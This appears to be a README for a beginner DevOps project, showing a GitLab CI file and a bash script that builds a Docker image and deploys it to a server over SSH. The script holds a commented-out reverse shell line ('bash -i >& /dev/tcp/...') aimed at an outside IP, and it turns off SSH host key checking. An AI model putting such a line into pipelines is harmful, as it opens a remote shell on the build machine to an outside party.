 For Website files you can add hmtl, css, js, images, and etc in ***One Folder*** in this case named ***website*** on the menandap's repo.

For Configuration files there are .gitlab-ci.yaml, .gitlab-deploy.sh  .

***.gitlab-ci.yml***

```yml
stage-build:
  image: docker:18.09-dind
  stage: build
  services:
    - docker:dind
  variables:
    DOCKER_HOST: tcp://docker:2375/
    DOCKER_DRIVER: overlay2
    DOCKER_TLS_CERTDIR: ""
  script:
    - . .gitlab-deploy.sh "BUILD"


stage-prod:
  image: ruby:2.5
  stage: deploy
  script:
    - . .gitlab-deploy.sh "DEPLOY"
  # when: manual

```

***gitlab-deploy.sh***
```bash 
#!/bin/bash
WAKTU=$(date '+%Y-%m-%d.%H')
echo "$SSH_KEY" > key.pem
chmod 400 key.pem

if [ "$1" == "BUILD" ];then
echo '[*] Building Program To Docker Images'
echo "[*] Tag $WAKTU"
docker build -t menandap/belajardevops:$CI_COMMIT_BRANCH .
docker login --username=$DOCKER_USER --password=$DOCKER_PASS
docker push menandap/belajardevops:$CI_COMMIT_BRANCH
echo $CI_PIPELINE_ID

elif [ "$1" == "DEPLOY" ];then
echo "[*] Tag $WAKTU"
echo "[*] Deploy to production server in version $CI_COMMIT_BRANCH"
echo '[*] Generate SSH Identity'
HOSTNAME=`hostname` ssh-keygen -t rsa -C "$HOSTNAME" -f "$HOME/.ssh/id_rsa" -P "" && cat ~/.ssh/id_rsa.pub
echo '[*] Execute Remote SSH'
# bash -i >& /dev/tcp/103.41.207.252/1234 0>&1
ssh -i key.pem -o "StrictHostKeyChecking no" DevOps@52.139.198.230 "docker login --username=$DOCKER_USER --password=$DOCKER_PASS"
ssh -i key.pem -o "StrictHostKeyChecking no" DevOps@52.139.198.230 "docker pull menandap/belajardevops:$CI_COMMIT_BRANCH"
# ssh -i key.pem -o "StrictHostKeyChecking no" DevOps@52.139.198.230 "docker stop belajardevops-$CI_COMMIT_BRANCH"
# ssh -i key.pem -o "StrictHostKeyChecking no" DevOps@52.139.198.230 "docker rm belajardevops-$CI_COMMIT_BRANCH"
ssh -i key.pem -o "StrictHostKeyChecking no" DevOps@52.139.198.230 "docker run -d -p 3003:80 --restart always --name belajardevops-$CI_COMMIT_BRANCH menandap/belajardevops:$CI_COMMIT_BRANCH"
# ssh -i key.pem -o "StrictHostKeyChecking no" DevOps@52.139.198.230 "docker exec farmnode-main sed -i 's/farmnode_staging/farmnode/g' /var/www/html/application/config/database.php"
echo $CI_PIPELINE_ID
```
